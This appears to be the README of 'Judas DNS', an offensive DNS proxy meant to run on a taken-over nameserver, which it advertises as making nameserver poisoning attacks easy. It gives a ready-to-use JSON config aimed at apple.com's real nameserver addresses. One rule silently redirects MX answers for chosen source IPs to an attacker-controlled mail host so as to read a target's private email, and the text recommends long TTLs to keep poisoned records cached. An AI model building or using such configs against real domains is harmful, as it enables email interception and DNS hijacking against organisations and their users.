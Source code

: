 # Judas DNS
```
                                                   
                          ,,                                                        
   `7MMF'               `7MM                       `7MM"""Yb. `7MN.   `7MF'.M"""bgd 
     MM                   MM                         MM    `Yb. MMN.    M ,MI    "Y 
     MM `7MM  `7MM   ,M""bMM   ,6"Yb.  ,pP"Ybd       MM     `Mb M YMb   M `MMb.     
     MM   MM    MM ,AP    MM  8)   MM  8I   `"       MM      MM M  `MN. M   `YMMNq. 
     MM   MM    MM 8MI    MM   ,pm9MM  `YMMMa.       MM     ,MP M   `MM.M .     `MM 
(O)  MM   MM    MM `Mb    MM  8M   MM  L.   I8       MM    ,dP' M     YMM Mb     dM 
 Ymmm9    `Mbod"YML.`Wbmd"MML.`Moo9^Yo.M9mmmP'     .JMMmmmdP' .JML.    YM P"Ybmmd"  

                                         Nameserver DNS poisoning attacks made easy
```
A DNS proxy server built to be deployed in place of a taken over nameserver to perform targeted exploitation. Judas works by proxying all DNS queries to the legitimate nameservers for a domain. The magic comes with Judas's rule configurations which allow you to change DNS responses depending on source IP or DNS query type. This allows an attacker to configure a malicious nameserver to do things like selectively re-route inbound email coming from specified source IP ranges (via modified MX records), set extremely long TTLs to keep poisoned records cached, and more.

# How Do I Take Over a Nameserver?
For more information on taking over nameservers and hijacking DNS, see the following blog post titled ["Respect My Authority – Hijacking Broken Nameservers to Compromise Your Target"](https://thehackerblog.com/respect-my-authority-hijacking-broken-nameservers-to-compromise-your-target/).

# Example Config
The following is an example configuration for Judas for an example scenario where an attacker has comprimised/taken over one of Apple's authoritative nameservers (for `apple.com`):

```json
{
    "version": "1.0.0",
    "port": 2248,
    "dns_query_timeout": 10000,
    "target_nameservers": [ "17.254.0.59", "17.254.0.50", "17.112.144.50", "17.112.144.59", "17.171.63.30", "17.171.63.40", "17.151.0.151", "17.151.0.152" ],
    "rules": [
        {
            "name": "Secretly redirect all emails coming from 127.0.0.1!",
            "query_type_matches": [ "MX" ],
            "ip_range_matches": [ "127.0.0.1/32" ],
            "modifications": [
                {
                    "answer": [
                        {
                            "name": "apple.com",
                            "type": 15,
                            "class": 1,
                            "ttl": 10,
                            "priority": 10,
                            "exchange": "hacktheplace.localhost"
                        }
                    ]
                }
            ]
        },
        {
            "name": "Make all responses NOERROR even if they've failed.",
            "query_type_matches": [ "*" ],
            "modifications": [
                {
                    "header": {
                        "rcode": 0
                    }
                }
            ]
        }
    ]
}
```
The above configuration value purposes are the following:

* `version`: The configuration file format version (for now is always `1.0.0`).
* `port`: The port Judas should run on.
* `dns_query_timeout`: How long to wait in milliseconds before giving up on a reply from the upstream target nameserver.
* `target_nameservers`: The legit nameservers for your target domain, all DNS queries will be sent here from Judas on behalf of all requesting clients.
* `rules`: A list of rules with modifications to the DNS response to apply if matched.
	* `name`: Name of a given rule.
	* `query_type_matches`: List of query types to match on such as `CNAME`, `A`, etc. A wildcard (`*`) can also be specified to match any query type.
	* `ip_range_matches`: List of IP ranges to match on. For selectively spoofing responses to a specific range of IPs.
	* `modifications`: See the "Modifications" section of this README.

# Modifications
Judas's rules come with a `modifications` specification which is set to a list of varying modifications to make to the DNS response before it is sent back to the client. It is important that you read the [`node-dns` documentation](https://github.com/tjfontaine/node-dns#packet) to understand the DNS response structure so you can modify it.

An example DNS response format is the following:

```
{ header: 
   { id: 25373,
     qr: 1,
     opcode: 0,
     aa: 1,
     tc: 0,
     rd: 1,
     ra: 0,
     res1: 0,
     res2: 0,
     res3: 0,
     rcode: 5 },
  question: [ { name: 'apple.com', type: 2, class: 1 } ],
  answer: 
   [ { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver4.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver3.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver5.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver6.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns1.apple.com' } ],
  authority: [],
  additional: [],
  edns_options: [],
  payload: undefined,
  address: undefined,
...trimmed for brevity...
```
(For more information on the DNS response data structure see [this documentation](https://github.com/tjfontaine/node-dns#packet).)

Writing a modification is very simple, an example rule with modification can be seen below:

```json
{
  "name": "Make all responses NOERROR even if they've failed.",
  "query_type_matches": [ "*" ],
  "modifications": [
    {
      "header": {
        "rcode": 0
      }
    }
  ]
}
```

The above rule matches any query type (due to the wildcard (`*`)) and sets the `header.rcode` value of the DNS response to `0`. Whatever object is set as a modification element is merged into the DNS response - replacing whatever value was originally set.

Another example is the following:

```json
{
  "name": "Secretly redirect all emails coming from 127.0.0.1!",
  "query_type_matches": [ "MX" ],
  "ip_range_matches": [ "127.0.0.1/32" ],
  "modifications": [
    {
      "answer": [
        {
          "name": "apple.com",
          "type": 15,
          "class": 1,
          "ttl": 10,
          "priority": 10,
          "exchange": "hacktheplace.localhost"
        }
      ]
    }
  ]
}
```

The above rule matches any `MX` query from `127.0.0.1`. The DNS response's answer is overwritten with a single MX record for `hacktheplace.localhost`. A real world implementation of this would be to redirect inbound emails from a specific IP in order to read private emails of your target. Additionally an attacker in a real world scenario may also choose to modify the response TTL to be a very high value in order to persist their malicious records in client DNS caches as long as possible.
